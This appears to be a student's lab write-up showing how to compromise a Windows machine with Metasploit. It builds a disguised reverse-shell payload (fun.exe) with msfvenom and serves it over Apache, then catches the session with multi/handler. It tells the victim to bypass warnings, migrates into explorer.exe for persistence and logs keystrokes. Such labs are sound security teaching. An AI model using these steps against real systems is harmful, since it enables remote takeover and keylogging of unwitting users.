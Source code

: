 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
Developed By 
MURALIDHARAN M 
212223040120
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## PROGRAM:
Find the attackers ip address using ifconfig
## Output :
![image](https://github.com/user-attachments/assets/f199d9df-8df9-4a0b-9d1a-adebdb8ee48d)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## Output:
![image](https://github.com/user-attachments/assets/0060ba60-29b6-4568-806f-20270c236ad2)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/02aa7dc5-93ca-4ad7-9636-8b9c5ba0070d)
Start apache server sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/ac415d4c-f5db-4c90-8d97-4a03c0186f28)
Check the status of apache2 sudo apache2 status
![image](https://github.com/user-attachments/assets/a63c096c-cbc2-4341-880a-42e5c414fba7)
Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## Output:
![image](https://github.com/user-attachments/assets/13c92553-f5aa-4589-ba1b-b7115e906231)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/0b69010f-d3f4-4e11-9eb8-27f09a95b4a4)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/user-attachments/assets/1685b62e-8e72-49a6-81cb-6add018438ed)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

## Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/2c800741-e5b4-4fc0-8f2b-2aa392ec6623)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/e2717fa5-0e2a-45ec-aa3d-dd2ceb91860c)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

